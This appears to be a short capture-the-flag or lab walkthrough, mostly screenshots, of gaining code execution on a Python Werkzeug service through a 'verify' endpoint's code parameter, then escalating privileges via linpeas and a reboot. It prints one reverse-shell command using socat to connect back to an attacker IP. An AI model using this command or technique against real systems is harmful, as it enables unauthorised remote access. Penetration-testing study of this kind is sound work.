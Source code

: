 ![](../attachment/79db031556b50e79da6bde442cd71ec2.png)
Werkzeug is running on port 50000

Ferox:
![](../attachment/26cd3bbcbaea1a1cd82e11cafca20785.png)

Now trying verify:
![](../attachment/bfac65696b4d4c0c02db5bfe6fed45a8.png)
We can pass in a code parameter so intercepting in burpsuite and sending a post request:
![](../attachment/408315ba59d4ea53ad4bc8f867a9cce3.png)
We have code execution and it is python. 

To get a reverse shell:
![](../attachment/0d5fbcba81515c32ef54d0f4074399b5.png)
```
os.system('socat TCP:192.168.45.236:80 EXEC:sh')
```
![](../attachment/6e7c3dd87fbd45982ade031c6360d825.png)
Running linpeas now:
![](../attachment/54f4577d21a09875b97e479c9f857cd8.png)
![](../attachment/35bd6646b997b4d7876ffae0ce6ea798.png)

After getting a stable shell using ssh:
We can modify it:
![](../attachment/04d4cd3b5f73c47af08091d5a4ea40c3.png)

Now we see that we have reboot privileges:
![](../attachment/cefa7350fe81034c60df5a56233938bb.png)
So rebooting we should get a shell:
![](../attachment/b8e364ce7737c18ee47333aef7b0a536.png)
![](../attachment/892f9c41a5acb1efb6dc8922285a9c63.png)


